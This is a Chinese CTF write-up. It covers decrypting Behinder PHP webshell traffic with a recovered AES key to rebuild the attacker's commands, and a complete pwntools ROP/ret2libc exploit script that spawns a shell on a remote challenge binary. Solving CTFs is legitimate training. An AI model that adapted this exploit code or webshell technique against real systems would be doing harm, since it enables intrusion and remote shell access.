

## 一. 同心启幕关卡

### 1. 冰碧蝎?

- 分析流量包
- `192.168.10.84 -> 10.30.16.146:80`
- 先有 `POST /index.php `上传文件，
- 随后大量 `POST /upload/1774235859.dcic.php`。
- 从上传包里提取木马源码，确认冰蝎流量。
- 提取到上传文件 `req1_dcic.php`，分析php 文件
- 会话 `key：$key="1ca3b8c9c81a5fdc" openssl_decrypt($post, "AES128", $key)`.
- 明文按 `|` 分割后 `eval($params)`
- 用`AES-CBC(IV=0)` 去解密 `sky -> 1ca3b8c9c81a5fdc`，对
  `/upload/1774235859.dcic.php` 的 `body` 做：
  - `base64` 解码
  - `AES` 解密
- 再解析内层 `base64_decode('...') ` 的 `PHP payload`
- 还原攻击者执行命令，找“显式写入”的值。
- 解密后可恢复到如下关键命令 `（script_2234e7b7483453c3d3e905e2e3cf5246.php）`：



```bash
cd /var/www/html/upload/ ;
ls ;
cd /var/www/html/upload/ ;
whoami -> www-data cd /var/www/html/upload/ ;
pwd -> /var/www/html/upload ;
#注意到
cd /var/www/html/upload/ ;echo
2i9Q8AtFEuzYHxwcUmpjFCQchUd1QqwQMf8mWfvUwm9LE8UaKVYDTaq5tG >
ffffff111aG && ls
```

- 得出 flag。 `2i9Q8AtFEuzYHxwcUmpjFCQchUd1QqwQMf8mWfvUwm9LE8UaKVYDTaq5tG`
- base58 解码:  
  `flag{dbeeed36-0d7e-211a-69db-66bd74ea91d5`

### 2.keep_stack

- 分析附件
- `amd64`，`No PIE`，`NX` 开启，`No Canary`。
- 注意到 `NoPIE` 使代码段地址固定，可做低 2 字节返回地址覆盖。远程是 `TLS` 服务
- 看 `0x4016c8` 这个函数（`main` 调用）：
  `scanf("%zu",&buf[0x80]) `读入长度（64 位），写在栈上
  `buf+0x80`。调用一堆混淆函数后进入 `0x4015f0` 循环读输入。`0x4015f0` 每次
  `read(0,tmp, 2)`，然后把这 2 字节写到 `buf + idx \*step`。`step`
  由全局变量决定：第一轮是 4，下一轮可变成 2。结束后
  `printf("input: %s\n", buf)`，然后函数返回。可抽象为：

```c
while (idx < max_len && idx <= 0x80) { read(0, x, 2); if (x[0]=='\n' || x[1]=='\n') break; _(uint16_t _)(buf + idx*step) = *(uint16_t*)x; idx++; }
```

- idx 上限只检查到 `0x80`，但写地址是 `buf +idx*step`。
- 当 `step=4` 且 `idx=0x2a` 时，偏移 `0x2a\*4=0xa8`，正好命中保存的返回地址。
- 当 `step=2` 时可连续写返回地址后的 `ROP` 区域。`max_len` 与 `idx` 本身也在
  `buf` 后面（`+0x80/+0x88`），可被同一原语反向改写来“跳索引”。
- 利用思路
  - 输入超大 `length`：`0xffffffffffffffff`。在 `idx=34` 时写 `0x29` 到
    `buf+0x88`（`idx` 位置），循环末尾 `idx++` 后跳到
    `0x2a`。下一次返回地址低 2 字节，改成 `0x178c`，即返回到
    `0x40178c`（`main+5`）。用 `0x40178crbp` 造成栈错位。
  - 泄露 `libc` + 固定下一轮仍为 `step=2` 同理在 `idx=68` 时写
    `0x53`，使后续跳到 `idx=84`（`0xa8` 偏移）。写入
  ```c
  ROP：poprdi; puts@got; puts@plt; pop rdi; arg; 0x40159f;0x40178c。
  ```

  - `puts` 泄露 `libc` 地址。额外调用 `0x40159f` 修正全局状态
  - `ret2libc`
    基于泄露计算：`libc_base`、`system`、`/bin/sh`。覆盖返回地址为：`ret;pop rdi; /bin/sh;system`。进入
    `shell`，读 flag。
- 先 `sendline(length)` 等到` What do you want to say?` 再 `send(payload)`
- exp

```python
#!/usr/bin/env python3
from pwn import *
context.binary = elf = ELF("./keep_stack")
libc = ELF("./libc.so.6")
POP_RDI = 0x4011E1
RET = 0x40101A
REENTER = 0x40178C
TOGGLE_G = 0x40159F
TOGGLE_ARG = 0x404200
MAX_LEN = 0xFFFFFFFFFFFFFFFF
REMOTE_HOST = "pwn-xxxxx.adworld.xctf.org.cn"
REMOTE_PORT = 9999
CONNECT_TIMEOUT = 8.0
IO_TIMEOUT = 3.0
REMOTE_SSL = True
LIBC_PUTS_OFF = libc.sym["puts"]
LIBC_SYSTEM_OFF = libc.sym["system"]
LIBC_BINSH_OFF = next(libc.search(b"/bin/sh\x00"))
def start():
 if args.LOCAL:
 io = process(["./ld-linux-x86-64.so.2", "--library-path",
".", "./keep_stack"])
 io.settimeout(IO_TIMEOUT)
 return io
 host = args.HOST or REMOTE_HOST
 port = int(args.PORT or REMOTE_PORT)
 use_ssl = REMOTE_SSL and not args.NOSSL
 if use_ssl:
 io = remote(host, port, ssl=True, sni=host,
timeout=CONNECT_TIMEOUT)
 else:
 io = remote(host, port, timeout=CONNECT_TIMEOUT)
 io.settimeout(IO_TIMEOUT)
 return io
def recv_until_or_raise(io, token):
 data = io.recvuntil(token, timeout=IO_TIMEOUT)
 if not data.endswith(token):
 raise EOFError(f"did not receive prompt {token!r}, got:
{data!r}")
 return data
def send_round(io, payload, length=MAX_LEN):
 recv_until_or_raise(io, b"length: ")
 return send_round_after_length_prompt(io, payload, length)
def send_round_after_length_prompt(io, payload, length=MAX_LEN):
 io.sendline(str(length).encode())
 recv_until_or_raise(io, b"What do you want to say? ")
 io.send(payload)
def parse_puts_leak(blob):
 pos = blob.rfind(b"\nlength: ")
 if pos == -1:
 raise ValueError(f"unexpected leak blob: {blob!r}")
 body = blob[:pos]
 lines = [ln for ln in body.split(b"\n") if ln]
 for ln in reversed(lines):
 if ln.startswith(b"input: "):
 continue
 if 5 <= len(ln) <= 8 and ln.endswith(b"\x7f"):
 return u64(ln.ljust(8, b"\x00"))
 for ln in reversed(lines):
 if ln.startswith(b"input: "):
 continue
 if 5 <= len(ln) <= 8:
 return u64(ln.ljust(8, b"\x00"))
 raise ValueError(f"failed to parse puts leak from blob:
{blob!r}")
def build_round1_payload():
 chunks = []
 for i in range(35):
 if i in (32, 33):
 chunks.append(b"\xff\xff")
 elif i == 34:
 chunks.append(p16(0x29))
 else:
 chunks.append(b"AA")
 chunks.append(p16(REENTER & 0xFFFF))
 chunks.append(b"\n\x00")
 return b"".join(chunks)
def build_step2_payload(chain):
 if len(chain) % 2:
 chain += b"\x00"
 if b"\n" in chain:
 raise ValueError("rop chain contains 0x0a byte, retry for
another ASLR layout")
 chunks = []
 for i in range(69):
 if 64 <= i <= 67:
 chunks.append(b"\xff\xff")
 elif i == 68:
 chunks.append(p16(0x53))
 else:
 chunks.append(b"BB")
 for i in range(0, len(chain), 2):
 chunks.append(chain[i : i + 2])
 last_idx = 84 + (len(chain) // 2) - 1
 if last_idx > 0x80:
 raise ValueError("rop chain too long for this stack
layout")
 if last_idx < 0x80:
 chunks.append(b"\n\x00")
 return b"".join(chunks)
def do_attempt():
 io = start()
 try:
 send_round(io, build_round1_payload())
 leak_chain = flat(
 POP_RDI,
 elf.got["puts"],
 elf.plt["puts"],
 POP_RDI,
 TOGGLE_ARG,
 TOGGLE_G,
 REENTER,
 word_size=64,
 )
 send_round(io, build_step2_payload(leak_chain))
 blob = recv_until_or_raise(io, b"length: ")
 puts_addr = parse_puts_leak(blob)
 libc_base = puts_addr - LIBC_PUTS_OFF
 system_addr = libc_base + LIBC_SYSTEM_OFF
 bin_sh = libc_base + LIBC_BINSH_OFF
 log.success(f"puts@libc = {hex(puts_addr)}")
 log.success(f"libc base = {hex(libc_base)}")
 log.success(f"system = {hex(system_addr)}")
 log.success(f"/bin/sh = {hex(bin_sh)}")
 final_chain = flat(RET, POP_RDI, bin_sh, system_addr,
word_size=64)
 send_round_after_length_prompt(io,
build_step2_payload(final_chain))
 io.interactive()
 except:
 io.close()
 raise
def main():
 max_retry = int(args.RETRY or 20)
 for i in range(1, max_retry + 1):
 try:
 log.info(f"attempt {i}/{max_retry}")
 do_attempt()
 return
 except Exception as e:
 log.warning(f"attempt {i} failed: {e}")
 log.failure("all attempts failed")
if __name__ == "__main__":
 main()
```

- flag:flag{Q3NCT8oVY45Anl1cIigr1tJd4eAiyKC6}

### 3.SecureDoc

> [!info] 此部分非本人完成，故不展示此部分wp
